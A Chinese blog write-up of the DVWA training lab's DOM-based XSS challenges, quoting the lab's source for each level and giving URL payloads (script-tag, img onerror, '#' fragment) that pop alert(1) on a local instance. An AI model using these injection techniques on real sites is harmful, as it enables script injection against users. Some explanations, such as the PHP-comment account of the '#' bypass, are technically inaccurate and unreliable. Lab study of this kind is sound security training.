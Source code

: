 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (DOM)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (DOM)，即DOM型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-22
author:     HouKC
header-img: img/post-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (DOM)

DOM型的XSS一般需要找到修改HTML内容的JavaScript代码，包含类似document.body.innerHtml的代码内容。



## 0x01 Low

#### 源码分析
```html
<div class="body_padded">
	<h1>Vulnerability: DOM Based Cross Site Scripting (XSS)</h1>

	<div class="vulnerable_code_area">
 
 		<p>Please choose a language:</p>

		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	</div>
```
可以看到在index.php中的script标签中，有一段JavaScript代码，意思是在select下拉框中会输出当前url中的default参数的值，可以直接插入XSS攻击脚本。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
弹窗成功！ 



## 0x02 Medium

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```
在Low级别的基础上，后台还做了检查，stripos函数过滤掉script。

大小写与双写均无法绕过，可以用img等标签攻击，但是需要闭合option和select标签，因为img标签无法在option和select标签内生效。

#### 解题思路
直接在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English</option></select><img src='1' onerror='alert(1);'/>
```
弹窗成功！ 



## 0x03 High

#### 源码分析
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```
在Low级别的基础上，做了switch-case选择，只有在正确匹配的时候才会继续，否则都默认跳转到default=English的情况。

咋一看可能没有办法绕过了，但是php中还可以利用单行注释符#号进行绕过。

#### 解题思路
构造注入语句如：
```html
French# <script>alert(1);</script>
```
就会在case的时候只用#号前面的字符串进行匹配，即French（使用其它几个也可以），后面的攻击代码会被当做注释；但整个字符串在后面还是会作为变量继续在HTML中输出。从而导致XSS攻击。

在url中的default参数插入XSS攻击代码即可：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English# <script>alert(1);</script>
```
弹窗成功！



## 0x04 Impossible

#### 源码分析
无源码。

这一级别是直接用客户端浏览器自带的XSS Filter功能来防止弹框，而没有设置后台XSS检查。

打开ie浏览器 -> Internet选项 -> 隐私 -> 勾选\“启用弹出窗口阻止程序\” -> 确定。

然后再去访问如下链接时：
```
http://127.0.0.1:9000/dvwa/vulnerabilities/xss_d/?default=English<script>alert(1);</script>
```
就会发现浏览器进行了阻止，从而达到保护的目的。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 同其他类型XSS注入一样。
- 客户端浏览器自身启动XSS Filter功能。